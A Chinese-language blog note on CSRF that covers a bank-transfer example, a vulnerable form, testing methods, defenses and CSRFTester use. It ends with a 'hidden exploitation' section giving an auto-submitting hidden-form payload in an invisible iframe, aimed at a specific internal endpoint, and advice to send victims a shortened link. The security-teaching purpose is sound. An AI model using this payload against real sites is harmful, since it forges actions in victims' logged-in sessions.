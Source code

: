 title: CSRF笔记
author: Believe firmly
tags:
  - web技术
categories: []
date: 2018-11-09 18:07:00
---
### 0x00：CSRF 简述

CSRF（Cross Site Request Forgery，跨站请求伪造），字面理解意思就是在别的站点伪造了一个请求。专业术语来说就是在受害者访问一个网站时，其 Cookie 还没有过期的情况下，攻击者伪造一个链接地址发送受害者并欺骗让其点击，从而形成 CSRF 攻击。
<!--more-->
### 0x01：CSRF 案例
受害者 (A) 登录了某个银行给朋友 (B) 转账，其转账操作发送的请求 URL 如下:

     https://www.xxxx.com?account=A&money=10000&touser=B

account 代表受害者，money 是要转账的金额，touser 是被转入的账户。发送这个链接请求后，A 给 B 转账的操作完成。这时攻击者（C）伪造了一个链接，如下：

     https://www.xxxx.com?account=A&money=10000&touser=C
这个链接的请求是 A 用户给 C 用户转账一万元。当 A 没有登录不存在 Cookie 信息时，此链接是无法执行的。这时攻击者通过一系列手段让 A 执行此链接，当 A 登录银行没有退出的时候，点击此链接便会执行成功。

### 0x02：代码示例
当程序对于类似此敏感信息操作提交时，没有进行相应的防护，便会产生 CSRF 攻击，例如一下代码：
```
<form method="GET" action="/transferFunds">
 
    转账金额：<input type="text" name="money">
    转入账户：<input type="text" name="touser">
    <input type="submit" name="action" value="提交">
 
</form>
```
#### 0x03：如何测试
在渗透测试中，可以先看下网页源代码对于敏感信息提交有无防护措施，初步判断是否存在 CSRF，随后通过抓包确定提交的完整 URL 链接，并伪造另一个链接进行测试。
在代码审计中，可以先查看网页源代码，是否有防护措施。随后可查看 WEB 应用程序的配置文件中是否有相应的验证措施，最后查看后台的处理逻辑，对于发送过来的请求是否有过滤等措施。

### 0x04：防护方法
1，二次验证，进行重要敏感操作时，要求用户进行二次验证。

2，验证码，进行重要敏感操作时，加入验证码。

3，验证 HTTP 的 Referer 字段。

4，请求地址中添加 Token 并验证。

5，HTTP 头中自定义属性并验证。

### CSRFTester的使用
1、下载CSRFTester，并启动run.bat，终端显示代理地址：‘127.0.0.18008’

2、按照上一步中的代理地址，设置浏览器代理。

3、在网站中登录后，发送一个请求（添加工作经历）。

4、点击Start Recording，利用CSRFTester抓取请求，并对求情参数进行修改：
![](1.png)

5、点Generate HTML生成脚本

6、在浏览器不退出登录情况下，打开生成的脚本，则发现新添加一条信息，则证明此处存在CSRF漏洞。

### 关于csrf隐藏利用的方法

一.准备两个页面 ，一个放csrf的代码 1.html，另一个页面2.html 用iframe包含住1.html
二.吧改进好的文件放入自己的服务器然后通过短链接网站生成链接发送给受害者。
2.html
```bash
<iframe src="1.html"style="display:none"></iframe>
```
1.html
 ```bash

<html>
  <head>
<script>
 
function sub(){
 
document.form1.submit();
}
setTimeout(sub,1);
</script>
</head>
  <body>
 
    <form name="form1" action="http://192.168.2.107:35080/puhuihuaPboc/back/activity/issue/ajax/addOrEditArticle" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="theirChannel" value="wn" />
      <input type="hidden" name="title" value="6666" />
      <input type="hidden" name="theirChildChannel" value="0" />
      <input type="hidden" name="cover" value="" />
      <input type="hidden" name="coverImage" value="" />
      <input type="hidden" name="targetOut" value="0" />
      <input type="hidden" name="targetUrl" value="" />
      <input type="hidden" name="content" value="&lt;p&gt;6666&lt;&#47;p&gt;" />
      <input type="hidden" name="districtId" value="0" />
      <input type="submit" value="Submit request" style="display:none" />
    </form>
  </body>
</html>

```